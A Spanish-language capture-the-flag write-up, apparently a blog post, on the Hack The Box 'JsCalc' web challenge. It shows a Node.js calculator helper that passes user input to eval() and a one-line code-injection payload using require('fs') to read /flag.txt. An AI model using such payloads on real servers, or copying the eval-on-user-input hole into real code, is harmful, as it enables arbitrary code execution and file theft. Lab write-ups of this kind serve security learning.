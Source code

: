 ```yaml
---
title: JsCalc
description: In the mysterious depths of the digital sea, a specialized JavaScript calculator has been crafted by tech-savvy squids. With multiple arms and complex problem-solving skills, these cephalopod engineers use it for everything from inkjet trajectory calculations to deep-sea math. Attempt to outsmart it at your own risk! 
date: 2024-06-30
toc: true
pin: false
image:
 path: /assets/img/htb-writeup-challenges/web_logo.png
categories:
  - Challenges
tags:
  - hack_the_box
  - rce
  - web_analysis
  - vulnerability_exploitation

---
```

## Web Analysis

La aplicación web permite al usuario ingresar fórmulas matemáticas que luego son evaluadas y devueltas como resultado en pantalla.

![](/assets/img/htb-writeup-jscalc/jscalc1.png)

El archivo comprimido proporcionado, contiene la estructura del entorno Node.js de la calculadora.

```terminal
/home/kali/Documents/htb/challenges/jscalc:-$ unzip jscalc.zip

/home/kali/Documents/htb/challenges/jscalc:-$ tree web_jscalc
web_jscalc
├── build-docker.sh
├── challenge
│   ├── helpers
│   │   └── calculaorHelper.js
│   ├── index.js
│   ├── package.json
│   ├── package-lock.json
│   ├── routes
│   │   └── index.js
│   ├── static
│   │   ├── css
│   │   │   └── main.css
│   │   ├── favicon.png
│   │   └── js
│   │       └── main.js
│   ├── views
│   │   └── index.html
│   └── yarm.lock
├── config
│   └── supervisord.conf
├── Dockerfile
├── flag.txt
└── supervisord.conf
```

El archivo `calculatorHelper.js` incluye la función vulnerable. La función `eval()` ejecuta dinámicamente cualquier código JavaScript dentro del string, lo que habilita ejecución arbitraria de código. 
* Referencia: [MDN - eval()](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval)

```terminal
/home/kali/Documents/htb/challenges/jscalc:-$ cat web_jscalc/challenge/helperscalculatorHelper.js
module.exports = {
  calculate(formula) {
    try {
      return eval(`(function() { return ${ formula } })()`);
    } catch (e) {
      if (e instanceof SyntaxError) {
        return 'Something went wrong!';
      }
    }
  }
}
```

---
## Vulnerability Exploitation

Node.js incluye el módulo `fs` que permite acceder al sistema de archivos. Este código ejecuta directamente `readFileSync`, accede al archivo `flag.txt` y retorna su contenido como string, explotando exitosamente la vulnerabilidad.

`require('fs').readFileSync('/flag.txt').toString();`

![](/assets/img/htb-writeup-jscalc/jscalc2.png)

> <a href="https://www.hackthebox.com/achievement/challenge/1521382/551" target="_blank">JsCalc Challenge from Hack The Box has been Pwned</a>
{: .prompt-tip }
